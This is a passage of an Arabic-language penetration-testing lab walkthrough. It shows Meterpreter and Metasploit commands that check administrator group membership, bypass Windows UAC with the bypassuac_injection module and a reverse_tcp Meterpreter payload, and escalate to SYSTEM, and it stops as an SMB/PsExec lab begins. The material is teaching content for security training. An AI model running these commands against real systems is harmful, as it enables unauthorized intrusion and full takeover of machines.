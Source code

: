 حلو الان اتصالنا مستقر راح نجرب نرفع الصلاحيات عن طريق هذا الامر  
```bash
getsystem [ to elevate to the high privilege. ]  
```  

نشوف انه ماقدر يرفع صلاحياتنا , طيب خلونا بداية الان نشوف يوزرنا اصلا هل هو من ضمن قروب administrators او لا  

اول شي طبعا نفتح شيل وبعدها ننفذ الامر الي بيظهر لنا ايش اليوزرات الي من هذا القروب الي هو administrators  
```bash
shell [ to open shell ]  
net localgroup administrators [ to identify all users in administrators group ]  
```  

نشوف انه فعلا اليوزر الي معنا جزء من قروب administrators ف راح نحاول الان نرفع صلاحياتنا عن طريق Bypassing UAC(User Account Control)  

اول شي نخلي نطلع من الشيل بعدها نطلع من الـ meterpreter session ونخليها بالخلفيه عن طريق هذي الاوامر  
```bash
press (CTRL+C) [ to exit from shell ]
bg or background or press (CTRL + Z) [ to set the meterpreter session on backgrond (without closeing) ]  
```  

طبعا البايباس الي حاب يعرف عنه اكثر يقدر يقرا عنه من هنا
[Bypass_UAC](https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_injection/)  

طبعا الاستغلال هذا موجود له موديول على الـ msfconsole وراح نستعمله الان باذن الله  

```bash
use exploit/windows/local/bypassuac_injection  
set session 1  
set TARGET 1  
set PAYLOAD windows/x64/meterpreter/reverse_tcp  
exploit  
```  

نشوف الان انه عطانا meterpreter session ثانيه  

نشوف الان ناحاول نرفع صلاحياتنا بيوزر الـ admin عن طريق هذا الامر  
```bash
getsystem [ to elevate to the high privilege. ]  
getuid [ to identify Server username ]  
```  

زي مانشوف الان سوينا بايباس وقدرنا نرفع صلاحياتنا زي وصار معنا NT AUTHORITY\SYSTEM  

الى هنا انتهى اللاب نشوف الي بعده  

---

راح نبداء باللاب الثاني الي هو  

Exploiting SMB With PsExec 
--------------------------|  

طبعا الان راح نشوف طريقة استغلال الـ SMB عن طريق اداة اسمها psexec  
